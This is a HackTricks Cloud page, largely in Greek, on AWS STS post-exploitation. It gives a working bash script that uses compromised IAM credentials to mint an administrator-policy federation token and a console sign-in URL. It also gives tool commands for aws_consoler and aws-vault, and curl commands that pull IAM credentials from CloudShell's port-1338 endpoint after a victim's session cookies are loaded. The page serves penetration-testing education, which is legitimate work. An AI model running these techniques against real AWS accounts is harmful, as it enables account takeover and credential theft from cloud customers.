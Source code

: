 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Για περισσότερες πληροφορίες:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### Από IAM Creds σε Console

Εάν έχετε καταφέρει να αποκτήσετε κάποια IAM credentials, μπορεί να σας ενδιαφέρει να **έχετε πρόσβαση στην web console** χρησιμοποιώντας τα παρακάτω εργαλεία.\
Σημειώστε ότι ο χρήστης/ρόλος πρέπει να έχει την άδεια **`sts:GetFederationToken`**.

#### Custom script

Το παρακάτω script θα χρησιμοποιήσει το προεπιλεγμένο προφίλ και μια προεπιλεγμένη τοποθεσία AWS (όχι gov και όχι cn) για να σας δώσει ένα υπογεγραμμένο URL που μπορείτε να χρησιμοποιήσετε για να συνδεθείτε στην web console:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Μπορείτε να **δημιουργήσετε έναν σύνδεσμο ιστού κονσόλας** με [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Βεβαιωθείτε ότι ο χρήστης IAM έχει άδεια `sts:GetFederationToken`, ή παρέχετε έναν ρόλο για να αναληφθεί.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) είναι ένα εργαλείο για την ασφαλή αποθήκευση και πρόσβαση στα διαπιστευτήρια AWS σε ένα περιβάλλον ανάπτυξης.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Μπορείτε επίσης να χρησιμοποιήσετε το **aws-vault** για να αποκτήσετε μια **συνεδρία κονσόλας προγράμματος περιήγησης**
{% endhint %}

#### Από την Κονσόλα στα IAM Creds

[**Ανακαλύφθηκε αρχικά σε αυτή την ανάρτηση**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Εάν καταφέρετε να συμβιβάσετε κάποια πρόσβαση σε μια διαδικτυακή κονσόλα (ίσως κλέψατε cookies και δεν μπορούσατε να αποκτήσετε πρόσβαση στον φάκελο .aws), μπορείτε να αποκτήσετε κάποια IAM token credentials για αυτόν τον χρήστη μέσω του **CloudShell**.

Το CloudShell εκθέτει IAM credentials μέσω ενός **μη τεκμηριωμένου endpoint στην πόρτα 1338**. Αφού φορτώσετε τα session cookies του θύματος στον περιηγητή σας, μπορείτε να μεταβείτε στο CloudShell και να εκδώσετε τις παρακάτω εντολές για να αποκτήσετε IAM credentials.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
